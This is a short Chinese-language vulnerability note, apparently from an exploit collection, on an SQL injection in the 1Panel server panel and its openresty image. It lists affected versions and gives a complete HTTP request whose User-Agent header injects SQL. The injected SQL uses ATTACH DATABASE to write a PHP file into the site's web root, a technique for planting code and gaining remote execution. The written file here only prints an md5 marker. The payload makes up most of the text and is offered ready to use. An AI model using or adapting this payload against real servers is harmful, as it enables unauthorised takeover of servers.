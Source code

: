 ### 漏洞描述：

1Panel 前台面板存在SQL注入漏洞，攻击者通过注入user-agent可以RCE获取服务器权限。

### 影响版本：

专业版：v1.10.10-lts  
社区版：v1.10.10-lts  
1panel/openresty：1.21.4.3-3-1-focal  
网站监控功能影响 == 1panel/openresty:1.21.4.3-3-1-focal  
WAF功能影响 <= 1panel/openresty:1.21.4.3-3-1-focal  

### Payload：

```jsx
GET / HTTP/1.1
Host: host
User-Agent: ua', 'payload', 0000000, '', '', 1, '2024-09-06 00:00:00', 0000000000.000, '/AAAAAAA', 00000, '2025-09-06', '16', '', '', 'Linux', 'edge', 'pc', '', '');ATTACH DATABASE '/www/sites/index/index/payload.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?= md5("payload"); ?>');#
```

---
